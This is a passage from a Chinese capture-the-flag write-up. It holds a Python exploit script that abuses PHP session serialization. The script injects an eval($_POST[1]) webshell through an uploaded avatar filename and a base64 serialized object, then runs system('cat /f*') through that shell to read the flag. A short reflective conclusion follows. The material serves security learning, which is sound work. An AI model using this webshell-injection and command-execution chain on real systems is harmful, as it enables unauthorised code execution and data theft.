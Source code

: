 ```php
    print((res.text))  
​  
def session\_to\_log():  
    params = {  
        "uname": "admin",  
        "passwd": "1q2w3e",  
        "backdoor":"session\_start"  
    }  
    res = requests.get(url=url,params=params,headers=headers)  
    print(res.text)  
​  
​  
def write\_webshell():  
    files = {  
        "avatar": ("';eval($\_POST\[1\]);#", base64.b64decode(  
"Tzo2OiJDb25maWciOjg6e3M6NToidW5hbWUiO3M6NToiYWRtaW4iO3M6NjoicGFzc3dkIjtzOjMyOiI1MGI5NzQ4Mjg5OTEwNDM2YmZkZDM0YmRhN2IxYzlkOSI7czo2OiJhdmF0YXIiO047czo4OiJuaWNrbmFtZSI7TjtzOjM6InNleCI7TjtzOjQ6Im1haWwiO047czo2OiJ0ZWxudW0iO047czo0OiJkYXRhIjtzOjIwOiJldmFsKCRfUE9TVFsxXSk7Pz4vKiI7fQ==").decode())  
    }  
    params = {  
        "uname": "admin",  
        "passwd": "1q2w3e",  
    }  
    data = {  
        "m": "edit"  
    }  
    res = requests.post(url=url, params=params, data=data, files=files)  
    print((res.text))  
​  
def run\_cmd():  
    webshell\_url = url + "/record.php"  
    cmd = "system('cat /f\*');"  
    data = {  
        "1":cmd  
    }  
    res = requests.post(url=webshell\_url,data=data)  
    print(res.text)  
​  
if \_\_name\_\_ == "\_\_main\_\_":  
    upload\_session\_file()  
    session\_to\_log()  
    write\_webshell()  
    run\_cmd()  
​
```

flag手到擒来。

![image-20240425192811210](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-22a3f2d61994493424976657958e25ae42637855.png)

0x03 结
======

太久没做ctf题目了，复健一下。

第一道题捡回了pearcmd，第二道题让我学习到了session序列化的知识点；

总之任重道远，还要多多学习啊。